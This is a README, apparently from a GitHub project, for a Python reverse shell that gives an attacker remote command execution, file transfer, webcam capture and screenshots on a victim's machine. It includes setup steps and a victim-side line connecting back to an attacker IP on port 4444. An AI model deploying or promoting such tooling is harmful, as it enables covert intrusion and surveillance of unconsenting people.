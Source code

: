 

---

# 🐚 Python Reverse Shell

A fully functional reverse shell written in Python that allows remote command execution, file transfer, webcam capture, screen capture, and system information retrieval from the target machine.

---

## 📌 Features

* 🖥️ **Remote Shell Access** – Execute terminal commands on the victim's machine.
* 📁 **File Upload/Download** – Send and retrieve files from the target.
* 📸 **Webcam Capture** – Snap a photo using the target's webcam.
* 🖼️ **Screenshot Capture** – Take a screenshot of the target screen.
* 💻 **System Information** – Collect host OS, CPU, RAM, and other hardware info.

---

## 🧠 How It Works

This tool is divided into two main parts:

1. **Client (Victim-side)** – Connects to the attacker's machine and waits for commands.
2. **Server (Attacker-side)** – Listens for incoming connections and sends commands.

Once the client connects, the attacker can execute commands and perform actions like downloading files or accessing the webcam.

---

## 🧰 Requirements

* Python 3.x
* Required Libraries:

  ```bash
  pip install opencv-python psutil pillow
  ```

> 📌 **Note:** `ImageGrab` only works on Windows systems or macOS (with GUI).

---

## 🛠️ Setup

### ✅ Server (Attacker's Machine)

```bash
python server.py
```

### 🧬 Client (Victim's Machine)

Edit the IP address in the client script (`client.py`) to match the attacker's IP:

```python
server('YOUR-IP-ADDRESS', 4444)
```

Then run:

```bash
python client.py
```

> The client will keep trying to reconnect until the server is available.

---

## 💻 Available Commands

| Command           | Description                                          |
| ----------------- | ---------------------------------------------------- |
| `cd <path>`       | Change current directory on the victim machine       |
| `download <file>` | Download file from victim                            |
| `upload <file>`   | Upload file to victim                                |
| `camera`          | Capture a snapshot using the victim’s webcam         |
| `screenshot`      | Capture a screenshot of the victim's screen          |
| `sysinfo`         | Get system hardware and OS details                   |
| `exit`            | Close the connection                                 |
| Any other command | Executes on the victim’s terminal and returns output |

---

## ⚠️ Disclaimer

This tool is developed for **educational purposes only**. Unauthorized access to systems without explicit permission is illegal. Use this project only in test environments or with proper authorization.

---

## 📄 License

This project is open-source and available under the [MIT License](LICENSE).

---
